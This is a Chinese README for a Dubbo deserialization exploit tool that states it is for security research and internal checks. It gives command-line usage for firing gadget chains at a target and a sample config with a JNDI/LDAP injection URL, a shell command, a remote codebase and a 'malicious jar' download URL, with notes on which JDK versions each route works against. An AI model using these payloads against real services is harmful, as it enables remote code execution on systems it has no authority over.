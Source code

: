 *工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责*

## Dubbo反序列化测试工具

## 使用帮助

usage: java -jar exp.jar [OPTION]
- -h --help               帮助信息
- -l --list             输出所有gadget信息
- -g --gadget <arg>          gadget名称
- -a --args <arg>      gadget入参，多个参数使用多次该命令传入，例-a http://127.0.0.1:80/ -a Calc
- -p --protocol <arg>   [dubbo|http] 通讯协议名称，默认缺省dubbo
- -s --serialization <arg>          [hessian|java] 序列化类型，默认缺省hessian
- -t --target <arg>          目标，例：127.0.0.1:20880
- -f --fastcheck <arg>   快速攻击检查（使用预置参数数据文件，遍历所有gadget进行攻击检查），参数为数据文件路径，参考文件check.data

例（快速攻击检测，若不指定序列化类型，则全部gadget都会尝试）：
```
java -jar dubbo-exp.jar
--target 127.0.0.1:20881 
--fastcheck /Users/threedr3am/dubbo-exp/check.data
```
check.dat预置参数文件内容：
```
### 快速漏洞攻击参数配置（将会根据相应匹配的参数选择对应的所有gadget攻击）
### 多个参数英文逗号分割

#JNDI注入url，JNDI注入需要考虑对方jdk版本，若是jdk8，
# 当小于jdk8u121，可以使用rmi服务进行JNDI注入攻击，
# jdk8u121～jdk8u191之间可以选择ldap服务替代，
# jdk8u191+需要使用tomcat-el依赖打法，或者使用gadget
JNDI=ldap://127.0.0.1:43658/Calc

#执行的shell命令
CMD=/System/Applications/Calculator.app/Contents/MacOS/Calculator
#或者 CMD=/bin/bash,-c,/System/Applications/Calculator.app/Contents/MacOS/Calculator

#Reference远程class代码url
CODEBASE=http://127.0.0.1:80,Calc

#恶意jar包url
JAR=http://127.0.0.1:8080/R.jar,Calc

#DNS服务url
DNS=http://xxxx.ceye.io
```

例（测试dubbo默认缺省情况下使用的dubbo协议+hessian2反序列化）：
```

--target
127.0.0.1:20881
--protocol
dubbo
--serialization
hessian
--gadget
rome
--args
ldap://127.0.0.1:43658/Calc
```
